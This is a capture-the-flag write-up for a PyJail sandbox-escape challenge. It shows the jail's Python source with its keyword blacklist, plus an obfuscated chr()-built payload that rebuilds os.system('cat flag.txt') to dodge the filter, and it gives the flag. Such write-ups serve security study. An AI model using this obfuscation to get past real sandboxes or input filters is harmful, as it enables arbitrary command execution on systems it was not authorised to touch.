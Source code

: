 # PRISON BREAK Cell 2 – 350 pts
Category: PyJail

Solver: CyberSikyu

To connect:
`nc 192.168.8.136 10015`

## Challenge Overview
This challenge is the second level of the “Prison Break” PyJail series. It accepts arbitrary Python input from the user, but implements a more aggressive blacklist than the previous level. The goal is to execute arbitrary shell commands (e.g., cat flag.txt) without triggering any of the blacklisted terms.

```python
jail.py:

#!/usr/local/bin/python

import os
import sys

print("="*40)
print("Welcome to the prison break level 2")
print("="*40)
print("Warden: I found out that you escaped at level 1, and now I will confiscate your tools.")
print("Warden: I will also make sure that you won't be able to escape again. BWAHAHA!!")
print("="*40)
print("---- TIPS from 'ret' who escaped and now he is in lvl 3 ----")
print("I love decorating texts in my house.")
print("------------------------------------------------------------")
hax = input("> ")
sys.stdin.close()

confiscated_tools = ['sys', 'import', 'flag', 'open', '/', "sh", "bin", 'eval', 'exec', 'os', 'read', 'system', 'builtins', '__builtins__']

if len(hax) > 512:
    print("In here your tools was replaced...")
    exit(1)

for tool in confiscated_tools:
    if tool in hax:
        print("In here your tools was replaced...")
        exit(1)

code = f"""
import os

{hax}

""".strip()

os.execv(sys.executable, [sys.executable, "-c", code])
```

## Exploit Strategy
The blacklist filters out substrings like os, system, import, flag, open, /, and others — even if they appear inside strings, list elements, or in concatenation. Literal usage of modules and functions is impossible, so indirect access is necessary.

## Final Working Payload
The breakthrough came from this obfuscated one-liner:

`getattr(globals()[chr(111)+chr(115)], chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109))(chr(99)+chr(97)+chr(116)+chr(32)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116))
`

This decodes to:

`getattr(os, "system")("cat flag.txt")`

However, none of the blacklisted substrings appear in the raw payload:

`'os'` is constructed with chr(111)+chr(115)

`'system'` is built from ASCII characters

`'cat flag.txt'` is also constructed dynamically

This bypasses the PyJail’s strict static filtering and successfully executes the shell command to reveal the flag:

`CITU{0k_g00d_y0u_escaped_lvl_2_ret_has_a_message_for_you_in_the_next_level}`
